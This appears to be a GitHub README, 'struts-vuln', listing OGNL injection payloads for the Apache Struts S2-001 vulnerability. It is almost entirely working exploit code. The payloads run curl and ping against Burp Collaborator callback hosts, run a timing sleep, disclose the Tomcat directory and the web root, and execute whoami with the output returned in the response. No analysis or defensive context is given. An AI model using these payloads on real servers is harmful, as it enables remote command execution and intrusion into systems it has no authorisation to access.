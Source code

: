 # struts-vuln

## s2-001:
##### Minimal payload:
```
%{@java.lang.Runtime@getRuntime().exec('curl 132poma4l3k2ugiooej4aptsqjwck1.burpcollaborator.net')}
```
- url encoded:
``` 
username=%25{@java.lang.Runtime@getRuntime().exec('curl 132poma4l3k2ugiooej4aptsqjwck1.burpcollaborator.net')}
```

- Output: `java.lang.UNIXProcess@58f17c3c`


##### Alternative payloads:
 - Using `java.lang.ProcessBuilder`: to execute command
```
%{(new java.lang.ProcessBuilder(new java.lang.String []{"ping","yz1h62j86v3zxqvq1xl5g967iyoocd.burpcollaborator.net"})).start()}
```

- Sleep payload ?:
```
%{@java.lang.Thread@sleep(10000)}
```
- Get the tomcat path:
```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```
- Get the web site real path:
```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```
- RCE with output in response:
```
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}

```



